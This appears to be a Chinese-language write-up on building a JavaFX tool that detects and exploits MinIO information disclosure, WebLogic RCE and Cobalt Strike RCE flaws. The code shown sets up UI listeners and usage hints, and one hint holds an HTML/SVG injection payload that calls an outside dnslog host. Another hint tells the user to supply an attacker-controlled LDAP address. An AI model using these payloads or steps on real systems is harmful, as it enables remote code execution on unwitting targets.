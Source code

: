 ​	3）框架主界面设置完成，如图

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403042124158.png" alt="Swing框架主界面" style="zoom:50%;" />



### 	2.2 设计交互功能

​	**用户可通过下拉列表选择不同漏洞，同时界面的文本框呈现不同漏洞的文本提示信息：**

​	1）调用JavaFX中的监听器，用于监听ChoiceBox（选择框）中选项的变化。当选项发生变化时，会执行changed方法。在changed方法中，读取下拉列表选中的值，并赋值给name变量，同时在输入命令的文本框设置文字提示先检测漏洞再执行

```java
final String[] name = {null};   //用来接收用户选项
//设置下拉列表监听事件
choiceBox.getSelectionModel().selectedIndexProperty().addListener(new ChangeListener<Number>() {
    public void changed(ObservableValue ov, Number value, Number new_value) {
        String ChoiceBox_Name = strings[new_value.intValue()];
        name[0] = ChoiceBox_Name;   //赋值
        textArea2.setText("请先检测是否存在漏洞");  //提示
```

​	2）通过name变量判断用户选项，运用流程控制算法对三种不同漏洞在URL输入框、命令输入框、回显文本框通过setText方法给出不同文字提示信息。

```java
if(name[0].equalsIgnoreCase("minio 信息泄漏")){
    textArea.setText("请输入ip，默认端口9000");  //规范输入
    textArea1.setText("[0] 漏洞前提:MinIO被配置为集群模式\n"+
            "[1] 用法:输入目标ip,无需输入端口,默认9000\n\n");
} else if (name[0].equalsIgnoreCase("weblogic RCE")) {
    textArea.setText(null);
    textArea2.setText(null);
    textArea1.setText("[0] 请自行搭建ldap服务器,用法:\n" +
            "[1] 请输入目标ip:端口,例如127.0.0.1:7001\n" +
            "[2] 命令输入ldap地址,例如xx.dnslog.cn,点击检测按钮查看结果\n"+
            "[3] 无需点击执行按钮,点击检测按钮配合ldap服务器即可查看执行效果\n\n");
} else if (name[0].equalsIgnoreCase("cs RCE")) {
    textArea.setText("点击检测查看反制方法");
    textArea2.setText(null);
    //自查
    textArea1.setText("[+] 自查方法:\n"+
            "[0] 受影响版本:Cobalt Strike <= 4.7\n"+
            "[1] 启动cobaltstrike客户端\n"+
            "[2] 添加监听器，修改名称处输入检测代码：\n"+
            "<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name='URI' value='http://xxx.dnslog.cn/a.svg'></object>"+
            "\n[3] value处url输入dnslog地址,查看回显即可检测\n"+
            "[4] 或者输入任意地址svg查看能否访问\n"+
            "[**] 注意:url地址需以http开头\n\n");
}
```

​	3）漏洞选择，文字提示功能实现, 如图

